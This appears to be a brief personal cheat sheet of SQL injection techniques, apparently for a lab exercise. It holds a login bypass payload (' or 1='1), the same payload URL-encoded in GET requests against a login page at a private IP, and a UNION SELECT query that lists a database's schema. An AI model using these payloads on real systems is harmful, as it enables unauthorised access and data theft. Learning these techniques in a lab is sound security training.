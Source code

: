     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
